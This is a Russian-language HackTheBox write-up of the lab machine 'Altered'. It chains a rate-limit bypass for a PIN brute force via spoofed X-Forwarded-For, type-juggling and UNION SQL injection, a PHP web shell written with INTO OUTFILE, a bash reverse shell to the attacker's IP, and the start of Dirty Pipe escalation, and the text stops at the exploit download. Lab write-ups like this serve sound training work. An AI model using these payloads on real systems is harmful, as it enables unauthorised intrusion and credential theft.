

# Altered (Linux, Hard)

.png>)

### Содержание:

После сканирования портов, мы обнаружим только два. На 80-ом порте будет форма авторизации и резета пароля с пинкодом. Просто перебирать четырехзначный пинкод не получится, так как после нескольких неправильных попыток, система блокирует запросы от пользователя. Laravel настроен так, что он использует Nginx, как прокси, следовательно, можно перезаписать HTTP-заголовки и брутить пинкод с нескольких айпи через X-Forwarded-For. После того, как мы получим доступ к учетке админа, можно будет проэксплуатировать SQLi, при этом тоже обойдя фильтры с помощью подмены типа переменной(Type Juggling). С помощью этой же SQLi получим непривилегированную оболочку и проэксплутируем вулну dirty pipe для уязвимого ядра линукса, чтобы рутироваться.

### Сканируем порты с помощью nmap:

```
$ nmap -sC -sV 10.10.11.159 -oN nmap
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ea:84:21:a3:22:4a:7d:f9:b5:25:51:79:83:a4:f5:f2 (RSA)
|   256 b8:39:9e:f4:88:be:aa:01:73:2d:10:fb:44:7f:84:61 (ECDSA)
|_  256 22:21:e9:f4:85:90:87:45:16:1f:73:36:41:ee:3b:32 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
| http-title: UHC March Finals
|_Requested resource was http://10.10.11.159/login
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```


.png>)

### Угадываем имя пользователя:

Через данную форму можно угадывать имена пользователей, например, я ввел - "**admin"**:

.png>)

Также можно восстановить пароль, но нужно знать пинкод, следовательно, можно его пробрутить:

.png>)

### Обходим Rate Limit и брутим пинкод:

Так как, если начать прямо брутить пинкод через **wfuzz**, то сервер начинает блокировать запросы (где-то после 60-ого запроса), т.е. тут стоит **Rate Limit**. На сайте используется **Laravel**, это можно определить по хранящимся кукам. А **Laravel** настроен так, что он использует **Nginx**, как прокси, следовательно, можно перезаписать **HTTP-заголовки** и брутить пинкод с нескольких айпи через **X-Forwarded-For**. Поэтому делаем два словаря, один для заголовка **X-Forwarded-For**:&#x20;

```
for i in {1..100}; do (for i in {1..254}; do echo $i; done); done >> wordlist1.txt
```

А другой для пинкода:

```
(for i in {0000..9999}; do echo $i; done) >> wordlist2.txt
```

Так как мы будем использовать цикл с этими двумя словарями, следовательно, нужно, чтобы в **wordlist1.txt** было больше слов, чем в **wordlist2.txt**:

```
wfuzz -H 'Cookie: XSRF-TOKEN=eyJpdiI6InlZZUE4bUkvODdaL2s5UHVHYVYzenc9PSIsInZhbHVlIjoiekdoaENqeUVrVVZwOTF3OVUwUURodTNTUUlPbVJzWkNIcFl5Q3QzSElGSnc5eE9IZzBaMno1OEd1eUFCdXE0QWg0RzV3ZFZQRi9QTVBkM0hNUGprdDBaREtOTUcyNS91bTlpQ1BZTTlLS05pMU15MU92aE93bGtua1c2SGwzV3oiLCJtYWMiOiI5ZGFjMmIyZTQ4OTc0ZTEzNzg2YzZjMWI5NmNmNGJjNGFiZDdhODg0ZWRiNjRjODllMGVhNTBjNGQxMGExMGRmIiwidGFnIjoiIn0%3D; laravel_session=eyJpdiI6IkFsSDFSODIrQ3lZZzRQKzFHclI4eWc9PSIsInZhbHVlIjoiSkxPVDIrRUU4RmxxRXlaLzZ1alh5cC9oRnllTFpHOGpRYmQyMTUvWkVvYmJycEVSSWUwOFMxNmxINHlENU02Rk5GT2RPU0MvNmZBdGorSXJOUG1XSXlJNk4wd2dZVUpIN0lSd3JFRk1lSURpZElkdmE4VCtkcWkxVG1yT0s0SFIiLCJtYWMiOiJmZjY0MzZiY2I2NzcxM2NlYzExM2ZhNDY5OTg5MTY1YWQ5OWMxNzgxMjBjMzBmZDAwODE4ZjM1OWE1YzBmZTUyIiwidGFnIjoiIn0%3D' -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.11.159/api/resettoken -d 'name=admin&pin=FUZZ' -z range,1000-9999 -m zip -w wordlist1.txt  -H 'X-Forwarded-For: 127.0.0.FUZ2Z' --hh 5644
```

**Wfuzz** используем со специальным флагом **-m zip**, чтобы указать два словаря на два параметра фаззинга.



Пинкод - 5118, введя его и изменив пароль админа, мы можем войти в панель:

.png>)

При клике на ссылку **view** у нас образуется **GET-запрос** с двумя параметрами **id** и **secret**:

.png>)

### Обходим фильтры и эксплуатируем SQLi:

При изменении параметра **id** вылетает ошибка, сообщающая о предотвращении пользовательского ввода. Так, как определенный параметр **id** должен соответствовать определенному параметру **secret**(который является **md5** хэшем, **32** символа), то мы не можем попытаться эксплуатировать **SQLi**, следовательно, можно попробовать преобразовать тело запроса в **json** и попробовать эксплуатировать вулну, которая заключается в преобразовании типов(**Type Juggling**). Я ее подробно разобрал в райтапе по [Ransom](https://tragernout.gitbook.io/hackandgtfo/hackthebox-writeups/ransom-linux-medium), а также нашел подробную статью по этому типу вулны [https://owasp.org/www-pdf-archive/PHPMagicTricks-TypeJuggling.pdf](https://owasp.org/www-pdf-archive/PHPMagicTricks-TypeJuggling.pdf):

```http
GET /api/getprofile HTTP/1.1
Host: 10.10.11.15
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:91.0) Gecko/20100101 Firefox/91.0
Content-Type: application/json
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
DNT: 1
Connection: close
Referer: http://10.10.11.159/
Cookie: XSRF-TOKEN=eyJpdiI6IlJsUnBqS0RrNG1xNWhxNFloWGpsZXc9PSIsInZhbHVlIjoiU01DY2YvOENtNHpHM1QzK2Z6c0l4OGpRSkNLeDQyVzk5emVHNU55TEIvSXRkZzRERXphNXBKSUxOaTFmSjNwNXNkaXJWMnhQMTVQclVLRVd0ckZDcFlTYXJ6OC9sdDNDZkxpSW91SEl6WlNnWnJGYTZVZXhkSlR4VjEzaGlUbnUiLCJtYWMiOiJlODZkYWFlMTYyNGFmMDRiYmUwZDgyNTM1YjZhZjc0ZWQyMTUyNzg1YmIwZGJmZGQ5MjgwMzhmNmE1NTAyNjQwIiwidGFnIjoiIn0%3D; laravel_session=eyJpdiI6IjdLWnAwUFZhb1RCRG90T1NZOGJocmc9PSIsInZhbHVlIjoiQjQ4R0Zkcm1BOHJ6ZlBnbFc5a1ptbVcrNXRPWUJ2MnlXbUE2ZzAwbDZKMDc2WDI1MlQwaldTVkdIYUNMZStLNFAxSGptOGhGNFhaM0piclFjTVB6WDgrYzErOEtyYlBTb0h0OUhsU2I2a1oycUhHWHd2bzA5OUpQQVBpZVR1ZXYiLCJtYWMiOiIwNDM0ZTM3YmYzODU3ZTVhODYzMWU1MmE0MmFmNzk3MDdlOWZiNWMyMzBmYTc3MTZlMDI3ZTRlNTAwMmQ5OWQwIiwidGFnIjoiIn0%3D
Content-Length: 60

{
"id":"2",
"secret":"c5169f4e0e83fd309f4d72a354021c60"
}
```

.png>)

.png>)

Далее я просто раскрутил **UNION SQLi**([о ней я тоже сделал статью](https://tragernout.gitbook.io/hackandgtfo/owasp-top-10/sql-union-injection)):

* Подбираем количество столбцов в **БД**, которая сейчас используется с помощью **null**:

.png>)

* Смотрим какие есть базы данных:

.png>)

```
{
"id":"1337 union select null,null,group_concat(schema_name) from information_schema.schemata -- -",
"secret": true
}
```

* Вытаскиваем таблицы из базы данных **uhc**:

```
1337 union select null,null,group_concat(table_name) from information_schema.tables where table_schema='uhc' -- -
```

```
failed_jobs,migrations,password_resets,personal_access_tokens,tasks,users
```

* Вытаскиваем столбцы из таблицы **users** базы данных **uhc**:

```
1337 union select null,null,group_concat(column_name) from information_schema.columns where table_schema='uhc' and table_name='users' -- -
```

```
bio,country,created_at,email,email_verified_at,id,name,password,remember_token,updated_at
```

* Достаем значения, которые нам ничего не дают :joy: :

```
1337 union select null,null,group_concat('\n', email, ':', name, ':', password) from uhc.users -- -
```

```
big0us@htb.local:big0us:$2y$10$L3X8m6P1w.F2aO011ffWr.587vGCYeFXuXwE2vr3DbrYkcuF741N2,
celesian@htb.local:celesian:$2y$10$8ewqN3lE9iazbo8sFiwUleeNIbOpAMRcaMzeiXJ50wlItN2Kd5pI6,
luska@htb.local:luska:$2y$10$KdZCbzxXRsBOBHI.91XIz.O.lQQ3TqeY8uonzAumoAv6v9JVQv3g.,
tinyb0y@htb.local:tinyb0y:$2y$10$X501zxcWLKXf.OteOaPILuhMBIalFjid5bBjBkrst/cynKL/DLfiS,
o-tafe@htb.local:o-tafe:$2y$10$XIrsc.ma/p0qhvWm9.sqyOnA5184ICWNverXQVLQJD30nCw7.PyxW,
watchdog@htb.local:watchdog:$2y$10$RTbD7i5I53rofpAfr83YcOK2XsTglO01jVHZajEOSH1tGXiU8nzEq,
mydonut@htb.local:mydonut:$2y$10$7DFlqs/eXGm0JPVebpPheuEx3gXPhTnRmN1Ia5wutECZg1El7cVJK,
bee@htb.local:bee:$2y$10$Furn1Q0Oy8IbeCslv7.Oy.psgPoCH2ds3FZfJeQlCdxJ0WVhLKmzm,
admin@htb.local:admin:$2y$10$uYmwbmWFdhy6mFXFPqgU3uDJDg1pJFJfWStkcaJY7LLJ69G17GdHC
```

### Создаем Reverse Shell через SQLi:

Мы можем читать файлы, следовательно, можем найти корневую папку сервера:

.png>)

Теперь попробуем создать свой файл **html**, записать в него что-то и проверить, имеем ли мы права создавать и редактировать файлы:

.png>)

.png>)

Все работает, переходим к созданию реверс шелла:

```
{
"id":"1337 union select null,null,'<?php system($_REQUEST[\"cmd\"]) ?>' into outfile '/srv/altered/public/tragernout.php' -- -",
"secret": true
}
```

.png>)

Но веб шелл нас не устраивает, поэтому перехватываем запрос и меняем его метод, а потом в параметр **cmd** вставляем наш пэйлоад в **URL-энкоде**:

.png>)

```
cmd=bash+-c+'bash+-i+>%26+/dev/tcp/10.10.16.44/9898+0>%261'
```

.png>)

### Рутируемся через Dirty Pipe(CVE-2022-0847):

```
$ uname -a
```

```
Linux altered 5.16.0-051600-generic #202201092355 SMP PREEMPT Mon Jan 10 00:21:11 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
```

Мы можем погуглить версию ядра линукс 5.16.0 и найти **CVE-2022-0847 (Dirty Pipe):**



Если вкратце, то вулна **Dirty Pipe** позволяет перезаписывать любые файлы, но только после первого символа в них. Получается, нам нужно искать **SUID-файлы**, которые мы перезапишем и рутируемся:

Скачиваем второй эксплоит к себе на машину, компилируем и поднимаем пайтоновский веб-сервер:

```
$ gcc exploit-2.c -o exploit
$ python3 -m http.server
```

.png>)
